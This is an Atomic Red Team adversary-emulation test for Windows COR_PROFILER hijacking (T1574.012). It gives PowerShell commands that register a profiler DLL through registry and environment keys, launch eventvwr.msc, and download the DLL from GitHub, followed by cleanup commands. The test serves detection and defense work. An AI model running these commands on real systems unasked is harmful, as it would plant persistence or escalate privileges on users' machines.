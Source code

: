 Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** 9d5f89dc-c3a5-4f8a-a4fc-a6ed02e7cb5a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value "#{file_name}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value "#{file_name}" -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force -ErrorAction Ignore 
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: "#{file_name}" must be present
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```
